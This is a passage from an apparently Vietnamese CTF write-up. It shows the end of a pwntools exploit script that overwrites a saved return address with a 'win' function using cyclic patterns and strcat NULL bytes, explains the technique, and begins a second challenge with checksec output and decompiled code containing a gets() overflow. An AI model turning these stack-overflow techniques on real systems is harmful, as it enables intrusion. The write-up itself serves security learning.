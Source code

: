 ```py
    pl = cyclic(255)
    sla(b'> ', b'1')
    sla(b'data: ', pl)

    pl = (cyclic_find(b'gaaa') + 2)*b'B' + p64(exe.sym.win)
    sla(b'> ', b'2')
    sla(b'data: ', pl)

  # Add NULL byte at the end second time
    pl = cyclic(255)
    sla(b'> ', b'1')
    sla(b'data: ', pl)

    pl = (cyclic_find(b'gaaa') + 1)*b'C' + p64(exe.sym.win)
    sla(b'> ', b'2')
    sla(b'data: ', pl)

  # Add NULL byte at the end third time
    pl = cyclic(255)
    sla(b'> ', b'1')
    sla(b'data: ', pl)

    pl = cyclic(cyclic_find(b'gaaa')) + p64(exe.sym.win)
    sla(b'> ', b'2')
    sla(b'data: ', pl)

  # Break the loop and return to win
    sla(b'> ', b'4')

    interactive()

if __name__ == '__main__':
    exploit()
```

Ở exploit mình sử dụng `strcat` như là thứ để đặt `NULL` byte vào `saved rip` để `reset` nó về `0` để ta có thể ghi giá trị mới vào nó, vì nếu ta dùng `strcat` để nối chuỗi có địa chỉ của hàm `win` vào thì nó chỉ có thể bị ghi đè `4 bytes` cuối và điều này sẽ làm chương trình bị crash.

## Present

```sh
[*] '/home/alter/CTFs/VSL/Present/libpwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[48]; // [rsp+20h] [rbp-30h] BYREF

  setup((unsigned int)argc, argv, envp);
  puts("Hi, Welcome to the pwn challenge!");
  puts("This program is just a print function. Bye!");
  puts("But wait, I have a present for you!");
  printf("%p\n", &fgets);
  printf("Please give me your present: ");
  gets(v4);
  return 0;
```
